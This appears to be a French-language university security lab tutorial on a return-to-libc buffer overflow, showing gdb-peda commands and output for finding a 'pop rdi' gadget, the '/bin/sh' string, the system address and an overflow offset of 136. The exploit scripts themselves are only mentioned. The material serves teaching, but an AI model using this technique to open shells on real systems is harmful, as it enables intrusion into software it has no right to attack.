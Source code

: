 ## Return 2 libc

* Le binaire est compilé avec le flag NX activé (moyen de protection par le noyau rendant la pile non exécutable).

* Le mécanisme de randomisation de l'espace d'adresse ASLR est désactivé

* Installation de l'outil ropper :  https://github.com/sashs/Ropper

![ret1](https://github.com/aabda2000/sti3a-security/assets/38082725/a7908f53-49b0-4ed9-8a84-5e8b42212306)


## Comment retourner à libc ?
Ici, l'objectif est de détourner le flot d'exécution normal du processus : Il s'agit de le rediriger pour exéuter la fonction system de libc:

int system(const char *command). 

plus précisément, on voudrait exécuter l'instruction : system("/bin/sh")

## Gadget poprdi ?

On commence notre investigation par la recherche d'un gadget de type pop rdi (il faut d'abord faire un break,sur vuln par exemple, dans gdb, et ensuite lancer le programme):


![ret2](https://github.com/aabda2000/sti3a-security/assets/38082725/b24826df-0697-4033-baf7-e3a3d395324a)

sinon, vous pouvez cherchez ce gadget en fournissant les adresses de début et de fin de mappage de libc:

![ret3](https://github.com/aabda2000/sti3a-security/assets/38082725/50c7c117-e152-4260-a75e-13440038dfa0)


gdb-peda$ ropsearch "pop rdi ; ret" 0x00007ffff7dee000 0x00007ffff7faf000

ou

gdb-peda$ dumprop

ou

gdb-peda$ asmsearch "pop rdi ; ret"

Ma méthode préférée (avec l'outil indépendant Ropper):

![Schéma de l'architecture](images/poprdi.png)

## Chercher l'adresse de la chaîne "/bin/sh"

![ret4](https://github.com/aabda2000/sti3a-security/assets/38082725/e73f41cb-5a46-478e-8a6c-3b82b30164a4)

Ma méthode préférée (avec la commande strings):


## Chercher l'adresse de la fonction system

gdb-peda$ p system

$1 = {int (const char *)} 0x7ffff7e36e50 <__libc_system>

gdb-peda$

## Chercher l'offset

gdb-peda$ pattern_create 400 entry.txt

Writing pattern of 400 chars to filename "entry.txt"

gdb-peda$ 

gdb-peda$ r < <(cat entry.txt)

Starting program: /home/insa/advanced/secu/cm/02-ret2libc/ret2libc < <(cat entry.txt)

adress of buf=0x7fffffffde10

Stopped reason: SIGSEGV

0x0000000000401178 in vuln () at ret2libc.c:10

10	}

gdb-peda$ x/1wx $rsp

0x7fffffffde98:	0x41514141

gdb-peda$ pattern offset 0x41514141

1095844161 found at offset: 136


l'offset vaut 136

La génération d'une erreur de segmentation (et d'un coredump (contenant l'état de la mémoire au moment du décès du processus,
sous GNU/Linux) est le syndrome que notre application est effectivement affectée par l'insertion d'un trop grand nombre de caractères en entrée.

## Lancez l'attaque

Mettez les différentes adresses trouvées dans les scripts pythons (les scripts exploitx.py où x est le numéro de l'exploit)


